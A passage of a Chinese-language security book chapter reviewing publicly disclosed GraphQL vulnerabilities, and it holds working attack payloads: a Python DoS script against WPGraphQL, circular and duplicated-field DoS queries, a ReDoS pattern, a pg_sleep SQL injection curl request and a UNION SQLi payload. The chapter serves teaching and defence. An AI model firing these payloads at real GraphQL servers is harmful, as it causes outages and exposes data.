






# 第十章：已披露的漏洞和漏洞利用


本章专门探讨实际的黑客报告。这些之前发现的 GraphQL 漏洞和漏洞利用将加深你对本书内容的理解，并希望能激发你进行自己的安全研究。

在整本书中，你学习了许多在实验室环境中测试 GraphQL API 的方法。但在实际场景中，你可能会遇到一些独特的漏洞，这些漏洞只出现在你测试的特定应用程序中。在本章中，你将发现一些漏洞可能非常具体。每当你学习一种新技术时，回顾公开可用的黑客报告有很多好处。本章将非常有用，因为你将发现以下内容：

+   来自社区其他成员的新黑客技术

+   其他黑客公开披露漏洞的方式，包括他们报告的技术深度，以及如何与外部公司沟通、评估漏洞的严重性，并展示其对业务的实际影响。

+   识别公司最关心的软件弱点的方法

+   现实世界中 GraphQL 应用的设计与实现，以及公司在生产环境中经常处理的漏洞类型

+   公司在漏洞缓解方面的做法，因为为软件安全缺陷找到一个长期的缓解策略和知道如何破解软件一样重要。

如你所见，每当你学到新东西时，很可能有人已经做过相关工作，能为你提供一个良好的起点。

## 拒绝服务（Denial of Service）

在本节中，我们将回顾公开披露的报告，这些报告对多个公司的 API 造成了 DoS 影响（其中一些公司可能你已经熟悉）。记住在第五章提到，GraphQL 中的 DoS 漏洞非常常见，因为查询语言的强大功能。让我们来探讨这些问题对服务器的影响有多大。

### 大负载（HackerOne）

HackerOne 的漏洞悬赏平台在其生产环境中广泛使用 GraphQL。除了托管其他公司的漏洞悬赏项目外，它还运行自己的项目，黑客可以用它来披露在平台上发现的安全问题。

2020 年 5 月，一位黑客披露了这样的一个漏洞（[`hackerone.com/reports/887321`](https://hackerone.com/reports/887321)）。他们发现，尽管 HackerOne 文档中指出 API 查询输入有字符限制，但实际上并未执行该限制。

为了测试该漏洞，黑客编写了一个基于 Python 的漏洞利用代码（已包含在报告中），其功能如下：

1.  设置一些必要的 HTTP 请求信息，如 cookies 和授权头。

1.  初始化一个空字符串变量，`a`。

1.  执行`for`循环 15,000 次，并将字符字符串添加到`a`中，有效地创建了一个包含 15,000 个字符的字符串。

1.  再执行一次`for`循环 50 次，发送一个使用`CreateStructuredScope`字段的突变查询。该字段使用上一步构造的负载 10 次，实际上为字段的`instruction`参数提供了一个包含 150,000 个字符的值。

1.  输出服务器返回响应所需的时间。这一值用于指示查询可能对服务器性能的影响。响应时间越慢，服务器性能退化的迹象就越明显。

以下是利用此漏洞时使用的突变片段。攻击者构建的大负载替换了突变中的`$instruction`占位符：

```
`--snip--`
mutation ($eligible_for_submission: Boolean, $instruction: String)
{
  createStructuredScope(input: {$eligible_for_submission, instruction: **$instruction**})
    {
 `--snip--`
    }
}
`--snip--`
```

向服务器发送此突变请求证明具有影响。黑客发送了几次此类请求后，GraphQL 服务器开始遇到困难，返回 HTTP 服务器错误*500 Internal Server Error*、*502 Bad Gateway*和*504 Gateway Timeout*，有效地造成了 DoS。500 级别的 HTTP 响应代码表示服务器端错误，表明代理或服务器出现问题。

记住，DoS 漏洞不一定需要完全使服务器离线才能有效。它们也可以消耗大量资源，导致显著的性能下降。

HackerOne 为黑客提供了 2,500 美元的奖励，感谢其负责任地披露了此报告。

### 正则表达式（CS Money）

第五章未覆盖的一种 DoS 形式使用正则表达式（regex）。*正则表达式 DoS（ReDoS）*通过迫使服务器处理一个恶意的正则表达式模式来耗尽服务器资源，该模式的评估会消耗大量时间和资源。这些漏洞并非特定于 API，尽管它们可以存在于所有 API 技术中，包括 REST、SOAP 和 GraphQL。

ReDoS 漏洞可以通过多种方式发生：

+   客户端向服务器提供一个恶意的正则表达式模式作为输入。

+   服务器包含一个正则表达式逻辑模式，当提供匹配的输入时，可能导致无限评估，而客户端提供了这样的输入。如果输入异常庞大，可能会导致 ReDoS。

这是一个可能容易受到 ReDoS 攻击的正则表达式模式示例：`(a+)+`。该模式可以匹配包含任意数量字母`a`的任何字符串，例如`aaaaaaaaaaaaaaaaaaaa`。如果客户端发送一个包含 100,000 个`a`字符的大型负载，服务器在评估该模式时可能会变得缓慢。

你可以使用在线正则表达式测试网站，如[`regex101.com`](https://regex101.com)，来查看某个特定表达式在实践中的表现，如图 10-1 所示。



图 10-1：在线正则表达式测试工具[`regex101.com`](https://regex101.com)

2020 年 10 月，一位名为 mvm 的道德黑客向 CS Money 的漏洞赏金计划报告了一个 GraphQL API 的 ReDoS 漏洞（[`hackerone.com/reports/1000567`](https://hackerone.com/reports/1000567)）。该黑客发现，GraphQL 的 `search` 对象接受一个 `q`（查询）参数。在他们的测试中，他们将一个 Unicode 空值（`\u0000`）作为参数值插入：

```
query {
  search(q: "**\u0000)**", lang: "en") {
 `--snip--`
}
```

对这个查询的响应中，GraphQL API 服务器返回了一个有趣的错误，揭示了识别 ReDoS 漏洞存在的一些关键信息：

```
"errors": [
    {
      "message": "value (?=.***\u0000**) must not contain null bytes"
 `--snip--`
    }
]
```

如你所见，`q` 参数中提供的字符串被插入到服务器上的正则匹配逻辑中，响应中以 `(?=.*` 字符串为前缀。服务器可能使用此参数在数据库中搜索相关数据。

方便的是，服务器通过其扩展启用了查询追踪。*查询追踪* 允许 GraphQL 服务器返回有助于调试的响应元数据，并提供有关查询性能的信息。响应中的追踪信息向客户端披露了三个重要字段（`startTime`、`endTime` 和 `duration`），揭示了服务器处理查询所需的时间：

```
"extensions": {
    "tracing": {
      "startTime": "02:07:55.251",
      "endTime": "02:07:55.516",
      "duration": 264270190,
 `--snip--`
    }
}
```

这些字段还表明，有时候看似无害的信息也能在渗透测试中帮助我们。时刻留意细节。

在识别潜在漏洞后，黑客使用了一个恶意的正则表达式模式，并将其设置为 `q` 参数的值：

```
query {
  search(q: "**[a-zA-Z0-9]+\\s?)+$|^([a-zA-Z0-9.'\\w\\W]+\\s?)+$\\**", lang: "en"){
 `--snip--`
 }
}
```

这个模式将匹配从 `a` 到 `z`、`A` 到 `Z` 以及 `0` 到 `9` 范围内的任何字符。

这里最重要的启示是，这种模式很可能会与应用程序后端数据库中的多个字符串匹配，从而导致服务器处理（并可能返回）大量数据。在他们的报告中，黑客分享了一个使用 GraphQL 查询的概念验证 cURL 命令。他们展示了，通过执行该命令 100 次，完全使 GraphQL 服务器瘫痪。

如你所见，恶意载荷可以使服务器瘫痪。我们强烈反对在没有公司明确授权的情况下向公司的生产 API 发送恶意载荷，因为如果公司未准备好处理恶意载荷，这可能会对业务产生负面影响。

公司为此报告提供了 250 美元的赏金。

### 循环内省查询（GitLab）

以下漏洞在 2019 年 7 月被报告给 GitLab（[`gitlab.com/gitlab-org/gitlab/-/issues/30096`](https://gitlab.com/gitlab-org/gitlab/-/issues/30096)）。该漏洞利用了 GraphQL 内省查询中 `type` 和 `field` 字段之间的循环关系。

报告者 freddd 发现，通过使用 `__schema` 元字段调用 `types`，然后递归调用 `fields` 和 `type`，可以触发 DoS 条件：

```
query {
  __schema {
    types {
      fields {
        type {
          fields {
            type {
 `--snip--`
            }
          }
        }
      }
    }
  }
}
```

该查询依赖于 API 上启用了自省功能。当自省被禁用时，通常无法直接调用`__schema`元字段。

尽管 GitLab 已实施查询复杂度检查，以缓解基于循环查询的 DoS 攻击，但该控制未应用于自省查询，导致其无意中暴露出漏洞。

利用这个漏洞也不需要黑客在 GraphQL API 上进行身份验证。缺乏身份验证使得这个漏洞更加严重，因为它降低了可以利用该漏洞的门槛。

### 字段重复的别名（Magento）

Magento 是互联网上最流行的电子商务平台之一，使用 GraphQL，并且在 2021 年 4 月，平台受到了一次 DoS 漏洞的影响。利用字段重复，攻击者可以在未进行身份验证的情况下消耗服务器资源。（Magento 允许未认证的客户端使用某些 GraphQL 对象，而对于其他对象则需要有效的身份验证会话。）

我们，这本书的作者，发现 Magento 没有保护自己免受重复字段恶意查询的影响。我们使用以下查询作为概念验证：

```
query {
  alias1: countries {
     full_name_english
     full_name_english # continues 1000s of times
 `--snip--`
  }
  alias2: countries {
 `--snip--`
  }
 alias3: countries {
 `--snip--`
  }
}
```

该查询使用了 GraphQL 别名来将重复查询批量处理为单个 HTTP 请求，这种技术允许攻击者向服务器发送非常复杂的查询。由于缺乏查询成本限制等安全控制，它有效地消耗了服务器的资源。

此后，Magento 在其平台中引入了许多 GraphQL 安全功能，如 GraphQL 查询复杂度限制和查询深度分析。图 10-2 显示了 Magento 在其 API 中实现的安全控制的默认值。



图 10-2：Magento 的查询复杂度和查询深度控制的默认值

如您所见，Magento 已实现 `queryComplexity` 值为 `300` 和 `queryDepth` 值为 `20`，这意味着查询的复杂度不能超过 300，而循环查询的嵌套层数不能超过 20 层。

### 基于数组的字段重复批处理（WPGraphQL）

这个漏洞与我们之前讨论的字段重复漏洞非常相似。2021 年 4 月，WPGraphQL（一个用于 WordPress 的 GraphQL 插件，网址：[`www.wpgraphql.com`](https://www.wpgraphql.com)）因缺乏适当的安全控制和不安全的默认配置而遭遇 DoS 漏洞。

WPGraphQL 插件为任何 WordPress 内容管理系统提供了一个生产就绪的 GraphQL API，并通过 WordPress 插件市场提供。图 10-3 展示了这个插件。

默认情况下，WPGraphQL 使得任何安装了该插件的 WordPress 实例都容易受到 DoS 攻击。首先，它允许客户端使用基于数组的批处理，将多个查询合并到一个请求中。此外，该插件在防止恶意查询方面的安全控制非常有限。第三，由于 WordPress 是一个博客平台，通常会为未经认证的客户端（例如博客读者）提供服务，因此 API 的某些功能可以在没有特殊权限的情况下访问。



图 10-3：WordPress 的 WPGraphQL 插件

我们自己发现了这个漏洞，并发布了以下的利用代码：

```
`--snip--`
FORCE_MULTIPLIER = int(sys.argv[2])
CHAINED_REQUESTS = int(sys.argv[3])

`--snip--`
queries = []

payload = 'content \n comments { \n nodes { \n content } }' * FORCE_MULTIPLIER
query = {'query':'query { \n posts { \n nodes { \n ' + payload + '} } }'}

for _ in range(0, CHAINED_REQUESTS):
  queries.append(query)

r = requests.post(WORDPRESS_URL, json=queries)
print('Time took: {}'.format(r.elapsed.total_seconds()))
```

这段代码设置了两个变量，基本上定义了单个 HTTP 请求的复杂度：`FORCE_MULTIPLIER` 是一个整数变量，它会重复选择集中的字段，而 `CHAINED_REQUESTS` 则表示该漏洞将向批处理数组中添加的元素数量。

接下来，`queries` 变量被设置为一个空数组。这个变量将保存最终发送给 WPGraphQL 的完整恶意载荷。代码随后创建了一个特殊查询，该查询将被 `FORCE_MULTIPLIER` 变量分配的整数值重复，并将其构造成一个用于 HTTP 请求的查询 JSON 对象。接下来，一个循环执行 *N* 次，其中 *N* 是 `CHAINED_REQUESTS` 的值。如果 `CHAINED_REQUESTS` 设置为 100，循环将执行 100 次，并创建一个包含 100 个元素的数组。最后，漏洞会发送 HTTP 请求并计算服务器处理这个昂贵查询所需的时间。

简而言之，如果 `FORCE_MULTIPLIER` 和 `CHAINED_REQUESTS` 都设置为 `100`，最终的数组将包含 100 个查询，每个查询都包含 100 个重复的字段。如果这两个变量设置为 10,000，想象一下处理这样一个查询会有多么昂贵。

### 循环片段（Agoo）

我们在 2022 年 5 月发现了一个 Ruby 基于 GraphQL 的服务器实现 *Agoo* 中的循环片段漏洞。该漏洞被标识为 CVE-2022-30288，问题出在 Agoo 服务器层面没有对传入查询进行验证检查。缺乏验证意味着该服务器不符合规范，也意味着发送到 Agoo 服务器的查询可能通过多种方式将其摧毁。让我们看看如何利用循环片段来做到这一点。

作为第一步，我们想检查是否默认启用了 introspection（自省），所以我们执行了以下查询：

```
query Introspection {
  __schema {
    directives {
      name
    }
  }
}
```

这个查询很简单；它返回架构中所有指令的名称。当你还不清楚 GraphQL 服务器支持哪些操作时，这是一个非常好的查询。

接下来，我们使用引用查询的片段构建了一个循环查询：

```
query CircularFragment {
  __schema {
❶ ...A
  }
}

fragment A on __Schema {
  directives {
    name
  }
❷ ...B
}

fragment B on __Schema {
❸ ...A
}
```

我们在`__Schema`类型上创建了两个片段。第一个片段`A`使用了`directives`顶层字段，并带有`name`字段。然后，在❷处调用（或导入）片段`B`。片段`B`在❸处包含`...A`，这再次调用片段`A`。此时，我们得到了两个循环片段。现在，为了执行它们，我们需要在查询中使用其中一个。在❶处，你可以看到我们如何通过在`__schema`元字段中调用`...A`来使用片段`A`。

此时，循环条件开始，且永无止境！对 Agoo 运行此查询将导致服务器冻结，并且将无法继续处理查询。唯一的恢复方法是重新启动 Agoo 的服务器进程。

其中一些拒绝服务（DoS）漏洞出现在一些大品牌的产品中，这些产品已经使用 GraphQL 一段时间，证明没有人能够免疫漏洞。

## 授权破坏

在本节中，我们将探讨影响 GraphQL API 授权控制的漏洞。这类问题最终可能导致数据泄露，并允许未经授权访问敏感信息。

### 允许已停用用户访问数据（GitLab）

在 2021 年 8 月向 GitLab 报告的一个公开漏洞中，一名黑客（化名 Joaxcar）利用已停用的用户账户，通过身份验证 GraphQL API，执行了不该被允许的操作 ([`hackerone.com/reports/1192460`](https://hackerone.com/reports/1192460))。

已停用的用户账户应在重新激活之前被拒绝访问。即使用户有有效的 API 密钥，只要用户被停用，应用程序也应拒绝其访问尝试，无论是通过控制台直接访问还是通过 API 密钥。

为了理解这一风险，假设某个员工去度假，而安全团队的政策是在员工返回办公室之前禁用所有员工账户。现在，假设该员工的密码泄露到互联网上，且有威胁行为者获得了这些凭据。在我们描述的漏洞场景中，威胁行为者将能够调用应用程序，即使该用户的账户已经停用。若有适当的身份验证和授权控制，情况本不应发生。

下面是 Joaxcar 用来利用此漏洞的操作：

1.  作为管理员，创建了一个带 API 密钥的次级用户

1.  仍然以管理员身份，停用了新创建的用户

1.  使用停用用户的 API 密钥调用了 GraphQL API

1.  确认他们成功使用停用的用户凭证执行了操作

他们在测试中使用了以下 GraphQL 查询：

```
mutation {
    labelCreate(input:{title:"deactivated", projectPath:"test1/test1"}){
        errors
        label {
            id
        }
    }
}
```

该查询使用了`labelCreate`对象，并带有一个输入类型参数，该参数接受`title`和`projectPath`。换句话说，这个漏洞允许道德黑客利用一个已停用的账户创建标签字段。很可能，这个漏洞还允许进行其他操作，而不仅仅是创建标签。

### 允许没有特权的员工修改客户电子邮件（Shopify）

以下漏洞是用户 ash_nz 在 2021 年 9 月报告给 Shopify 漏洞赏金计划的（[`hackerone.com/reports/980511`](https://hackerone.com/reports/980511)）。Shopify 是一家电子商务公司，长期以来在 GraphQL 领域一直处于领先地位，开发了许多有用的开源工具，发布了关于 GraphQL 最佳实践的文章等。

该漏洞允许 ash_nz 通过一个没有特权的店铺员工账户修改客户的电子邮件，进而通过专用的 GraphQL API 突变更新电子邮件对象。以下是报告中看到的突变：

```
mutation emailSenderConfigurationUpdate ($input:EmailSenderConfigurationUpdateInput!) {
    emailSenderConfigurationUpdate(input:$input) {
        emailSenderConfiguration {
            id
        }
        userErrors {
            field
            message
        }
    }
 }
```

该黑客将客户的电子邮件传递给突变的`input`参数，并将其发送到 GraphQL API 服务器，尽管 API 调用者没有适当的权限，但服务器仍更新了客户的电子邮件。

这是一个相当简单的漏洞，但识别它确实需要测试多个假设和边缘情况。始终在不同的权限级别下评估 API，并尝试进行跨账户或跨用户访问，以发现授权问题。

这位黑客通过负责任地披露这个问题，从 Shopify 获得了$1,500 的赏金。

### 通过团队对象泄露允许黑客数量（HackerOne）

2018 年 4 月，一名名为 haxta4ok00 的道德黑客在 HackerOne 平台上发现了一个 GraphQL 授权问题，该问题导致了信息泄露漏洞（[`hackerone.com/reports/342978`](https://hackerone.com/reports/342978)）。

该黑客发现，通过使用 HackerOne 的 GraphQL API 中的`team`对象进行查询，他们可以访问一个本不应访问的受限字段。`team`对象允许查询 HackerOne 平台上的项目，并返回诸如`id`和`name`等信息。

黑客还发现，当指定`whitelisted_hackers`字段时，它会返回项目允许的黑客总数（`total_count`）。由于团队对象接受`handle`参数，它实际上允许根据`handle`字符串搜索项目。以下示例中，`handle`为`security`：

```
query {
    team(handle:"security"){
        id
        name
        handle
        whitelisted_hackers {
            total_count
        }
    }
}
```

HackerOne 的审核团队确定，这个漏洞还可能让某人通过向`handle`参数提供不同的字符串来识别平台上其他非公开的项目。这些字符串可能与团队的`handle`匹配。查询的响应如下：

```
`--snip--`
"team":{
    "id":"Z2lkOi8vaGFja2Vyb25lL1RlYW0vMTM=",
    "name":"HackerOne",
    "handle":"security",
    "whitelisted_hackers":{
        **"total_count":30**
    }
}
`--snip--`
```

如你所见，泄露的信息性质并不十分敏感，但它可以用来推测程序是否为私密的，因此可以找到 HackerOne 的客户。

HackerOne 因该授权问题支付了 2500 美元的悬赏，因为它带来了信息泄露的影响。

### 阅读私人笔记（GitLab）

在 GitLab 上创建的议题可能包含仅限成员查看的私人笔记。2019 年 6 月，一位名为 ngalog 的道德黑客通过 HackerOne 报告了 CVE-2019-15576（[`hackerone.com/reports/633001`](https://hackerone.com/reports/633001)），该报告显示，黑客可以通过 GitLab 的 GraphQL API 读取这些笔记，尽管在 REST API 中已正确限制了访问权限。

笔记可能包含敏感信息，例如关于重复问题、已移至其他项目的问题，甚至是项目代码。道德黑客使用以下查询来利用该漏洞：

```
query {
  project(fullPath:"username16/ci-test"){
    issue(iid:"1"){
      descriptionHtml
      notes {
        edges {
          node {
            bodyHtml
            system
            author {
              username
            }
            body
          }
        }
      }
    }
   }
  }
```

如你所见，`issue`对象与`notes`字段一起使用。这个`notes`字段允许访问其他字段，例如笔记的`body`、笔记的`author`等。下图图 10-4 来自 GitLab GraphQL API 文档，显示了可用字段的完整列表。



图 10-4：GitLab 关于笔记字段的文档

GitLab GraphQL API 的完整文档可以在[`docs.gitlab.com/ee/api/graphql/reference`](https://docs.gitlab.com/ee/api/graphql/reference)找到。

### 披露支付交易信息（HackerOne）

以下漏洞是在 2019 年 10 月报告给 HackerOne 的，影响了其自身的 GraphQL API（[`hackerone.com/reports/707433`](https://hackerone.com/reports/707433)）。该漏洞允许黑客 msdian7 访问支付交易的总数量——这一信息原本应为机密，仅授权方可访问。

使用的 GraphQL 查询如下所示：

```
query ($handle_0: String!, $size_1: ProfilePictureSizes!) {
  team(handle: $handle_0) {
    id
    name
    about
    profile_picture(size: $size_1)
    offers_swag
    offers_bounties
    base_bounty
    **payment_transactions** {
      **total_count**
    }
   }
  }
}
```

支付数据不应成为公开信息。这个漏洞通过使用未经授权的会话访问`payment_transactions`字段中的`total_count`字段，从而有效地提供了对 HackerOne 平台上其他漏洞悬赏程序交易的洞察。

## 信息泄露

在本节中，我们将回顾公开披露的漏洞，这些漏洞仅导致了信息泄露问题。在本章之前讨论的一些问题也导致了信息泄露，但这些问题源于其他漏洞，例如访问控制机制破坏。

### 枚举 GraphQL 用户（GitLab）

2021 年，Rapid7 在 GitLab 的社区版和企业版中发现了 CVE-2021-4191 漏洞。该漏洞允许未经身份验证的攻击者访问在私有 GitLab 实例中，已特定限制其用户注册界面的用户信息。

例如，以下查询返回有关 GitLab 实例中用户的信息，例如他们的姓名、用户名和 ID：

```
query {
  users {
    nodes {
      id
      name
      username
    }
  }
}
```

除了用户的姓名和用户名外，该漏洞还影响了诸如电子邮件、位置、用户权限、组成员身份、账户状态和头像等字段。获取这些关于用户的丰富信息有多个用途：

+   **识别待攻击账户。** 知道用户名和电子邮件地址让攻击者能够有针对性地攻击特定账户。获取用户电子邮件还使得攻击者能够转向其他攻击方式，如社交工程，通过向用户发送钓鱼邮件进行攻击。

+   **识别可用的组。** 该漏洞允许攻击者通过用户的组成员身份推断出运行 GitLab 的公司信息。组成员身份可以揭示出诸如收购、子公司、其他公司分支、公司运营的地区等信息。

+   **识别个人身份。** 该漏洞允许访问用户的头像，这可能帮助攻击者在 GitLab 以外的平台上针对特定用户。

+   **识别账户状态。** 了解账户的状态（是禁用还是启用）可以使得暴力破解等攻击更加有效；攻击者可以仅针对处于启用状态的账户，从而优化攻击效果。

这个漏洞特别有趣，因为它的利用方式非常简单直接。其能够在未认证的情况下执行，也大大增加了其严重性。

### 通过 WebSocket 访问 Introspection 查询（Nuri）

这份报告非常有趣且独特。在 2020 年 4 月，一位名为 zerodivisi0n 的道德黑客披露了 Nuri 的 API 中的一个漏洞，该漏洞导致通过 introspection 查询泄露了模式信息（[`hackerone.com/reports/862835`](https://hackerone.com/reports/862835)）。这个 GraphQL API 使用 WebSocket 作为传输协议，而非 HTTP。

在之前的章节中，你学习了在订阅操作的上下文中，GraphQL 和 WebSocket 的使用；客户端可以订阅感兴趣的特定事件，通过 WebSocket 协议获取实时信息。一些 GraphQL 库，例如 *graphql-ws*（[`github.com/enisdenjo/graphql-ws`](https://github.com/enisdenjo/graphql-ws)），不仅支持通过 WebSocket 发送订阅请求，还支持查询和变更操作。

报告的漏洞使得黑客能够通过 WebSocket 连接直接执行 introspection 查询。虽然报告没有详细说明 GraphQL 实现的设计细节，但在非 WebSocket 接口（例如通过 HTTP 发送的查询操作）上，introspection 被禁用。

通过 WebSocket 客户端与服务器之间的消息进行 introspection 查询，可能类似于以下内容：

```
{"type":"start","payload":{"query":"query Introspection { __schema {...} }"}}
```

通过 WebSocket 发送的查询和变更操作目前并不常见。你更可能看到通过 WebSocket 传输的 GraphQL 订阅操作，但随着 GraphQL 趋势的演变，未来这种情况可能会有所变化。

## 注入

以下公开披露的 GraphQL 漏洞导致了应用程序注入缺陷。第八章讲解了注入以及如果被利用它们会有多严重。

### GET 查询参数中的 SQL 注入（HackerOne）

在 2018 年 11 月，Jobert 发现了 HackerOne 的 GraphQL 生产端点中的 SQL 注入漏洞（[`hackerone.com/reports/435066`](https://hackerone.com/reports/435066)）。Jobert 发现传递给 HackerOne GraphQL */graphql*端点的一个非标准参数，*embedded_submission_form_uuid*，其内容如下所示：

```
/graphql?**embedded_submission_form_uuid**=value
```

这个 URL 参数在 GraphQL API 中并不常见，你更可能看到如下所示的参数：

1.  `query`

1.  `variables`

1.  `operationName`

你应该已经熟悉这些内容：`query`的值是完整的 GraphQL 查询，`variables`是传递给查询的附加数据（如参数值），而`operationName`是操作的名称。Jobert 能够识别出传递给自定义参数的值在后台未进行检查，从而有效地允许他们注入 SQL 命令。

HackerOne 的分诊团队共享了负责处理 GraphQL 参数的 Ruby 代码，我们在这里修改了代码，以便更清晰地展示问题：

```
unless database_parameters_up_to_date
  safe_query = ''

❶ new_parameters = {"embedded_submission_form_uuid":"PAYLOAD"}

  new_parameters.each ❷ do |key, value|
      safe_query += "SET SESSION #{key} TO #{value};"
  end

  begin
      # safe_query ="SET SESSION embedded_submission_form_uuid TO PAYLOAD"
      connection.query(safe_query)
  rescue ActiveRecord::StatementInvalid => e
      raise e unless e.cause.is_a? PG::InFailedSqlTransaction
  end

end
```

`new_parameters`变量❶是一个哈希映射，包含自定义的`embedded_submission_form_uuid` URL 参数及其值（该值由客户端控制）。在❷处，循环对分配给变量的键和值进行字符串插值，有效地将参数及其值组合成一个字符串。然后，它将这个字符串与`SET` `SESSION` SQL 命令结合在一起。

新的 SQL 命令最终被赋值给`safe_query`变量，此时攻击者控制了该变量，并且没有进行任何检查。我们用注释突出显示了被赋值给该变量的内容：GET 参数`embedded_submission_form_uuid`的键及其值。最终，变量被转化为 SQL 查询并执行。GraphQL 参数也不会自动进行清理，这也导致了 SQL 注入漏洞的产生。

Jobert 构造了一个特殊的 cURL 请求来验证注入：

```
time curl -X POST https://hackerone.com/graphql\?embedded_submission_form_uuid\=
1%27%3BSELECT%201%3BSELECT%20**pg_sleep**\(**10**\)%3B--%27

0.02s user 0.01s system 0% cpu **10**.557 total
```

此 cURL 请求的 URL 解码版本如下所示：

```
/graphql?embedded_submission_form_uuid=**1';SELECT 1;SELECT pg_sleep\(10\);--'**
```

该请求使用了一种基于时间的 SQL 注入技术（在第八章中讲解），通过使用 PostgreSQL 命令`pg_sleep`引入了服务器处理的`10`秒时间延迟。攻击者通过使用 Linux `time`命令跟踪服务器响应请求的时间。该请求完成用了 10.557 秒。

该技术不仅确认了漏洞的存在，还避免了意外泄露敏感信息或可能向数据库发送危险命令，造成数据丢失的风险。

### 对象参数中的 SQL 注入（Apache SkyWalking）

Apache SkyWalking 是由 Apache 软件基金会创建的用于微服务和云原生架构的性能监控平台。2020 年 6 月，它出现了一个通过传递值到 GraphQL 字段参数引入的 SQL 注入漏洞。该漏洞被分配为 CVE-2020-9483。

SkyWalking 可以与各种存储后端一起工作，如 H2、OpenSearch、PostgreSQL 和 TiDB。一位名为 Jumbo-WJB 的黑客发现，当 SkyWalking 与 H2 或 MySQL 存储后端结合使用时，通过 `getLinearIntValues` 字段 `metric` 参数存在 SQL 注入（SQLi）漏洞。

Jumbo-WJB 发布了针对该漏洞的利用工具，构造了一个特殊的载荷，在 GraphQL 查询中滥用该漏洞实现 SQL 注入。在以下示例查询中，可以看到传递给 `metric` 参数的 `id` 值包含了 SQL 查询语法：

```
query SQLi($d: Duration!) {
  getLinearIntValues(metric:
{name: "all_p99", id: "**') UNION SELECT 1,CONCAT('~','9999999999','~')--**"},
duration: $d) {
    values {
      value
    }
  }
}
```

`metric` 参数期望一个对象，其中包含诸如 `id` 和 `name` 等键。漏洞似乎出现在 `id` 键上，该键在插入到 H2 或 MySQL 数据库之前没有进行过滤。

通过查看包含修复的 SkyWalking GitHub 仓库中的 pull request，我们可以大致了解存在漏洞的代码区域（图 10-5）。



图 10-5：Apache SkyWalking 的漏洞代码

`getLinearIntValues` 方法接受一些参数，如 `tableName`、`valueCName` 和 `ids`（第 110 行），并使用 Java 的 `StringBuilder`（第 112 行）构建字符串。然后使用一个循环遍历传递给 `ids` 参数的值，并通过连接它们并使用单引号装饰它们来构建一个字符串（第 113 至 118 行）。最终构建的字符串未经过滤，直接作为 SQL 查询的一部分使用（第 123 至 125 行）。

很可能 `metric` 对象的 `id` GraphQL 参数会直接插入到 `ids` 列表中，因此允许注入 SQL 命令。

### 跨站脚本（GraphQL Playground）

CVE-2021-41249 是一个影响 GraphQL Playground IDE 的反射型 XSS 漏洞，该 IDE 提供了一个向 API 发送查询的接口，还包括原始的架构信息、API 功能文档以及来自内联 SDL 代码注释的信息。这些信息部分是通过一个自动发送的 introspection 查询填充的，该查询在 GraphQL Playground 加载时会自动发送。其他信息可能来自 GraphQL 服务器。

